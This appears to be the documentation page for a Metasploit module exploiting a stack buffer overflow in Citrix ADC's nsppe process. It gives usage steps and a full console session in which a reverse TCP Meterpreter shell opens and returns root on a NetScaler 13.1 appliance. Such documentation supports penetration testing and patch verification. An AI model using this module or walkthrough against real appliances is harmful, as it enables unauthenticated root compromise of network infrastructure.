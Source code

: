 ## Vulnerable Application

A vulnerability exists within Citrix ADC that allows an unauthenticated attacker to trigger a stack buffer overflow of
the nsppe process by making a specially crafted HTTP GET request. Successful exploitation results in remote code
execution as root.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/freebsd/http/citrix/formssso_target_Rce`
4. Set the `RHOST`, `PAYLOAD` and payload-related options
5. Do: `run`
6. You should get a shell.

## Options

## Scenarios

Specific demo of using the module that might be useful in a real world scenario.

### Citrix ADC 13.1-48.47

NetScaler VPX instance for VMware ESX from `NSVPX-ESX-13.1-48.47_nc_64`.

```
msf6 exploit(freebsd/http/citrix_formssso_target_rce) > show options 

Module options (exploit/freebsd/http/citrix_formssso_target_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.130  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Citrix ADC 13.1-48.47



View the full module info with the info, or info -d command.

msf6 exploit(freebsd/http/citrix_formssso_target_rce) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (24768 bytes) to 192.168.159.30
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.30:36429) at 2023-07-31 17:34:18 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : cirtrix
OS           : FreeBSD 11.4-NETSCALER-13.1 FreeBSD 11.4-NETSCALER-13.1 #0 2596b10c4(rs_131_48_41_RTM): Sat Jun  3 00:57:48 PDT 2023     root@sjc-bld-bsd114-232:/usr/obj/usr/home/build/adc/usr.src/sys/NS64
Architecture : x64
Meterpreter  : python/freebsd
meterpreter > pwd
/
meterpreter > 
```
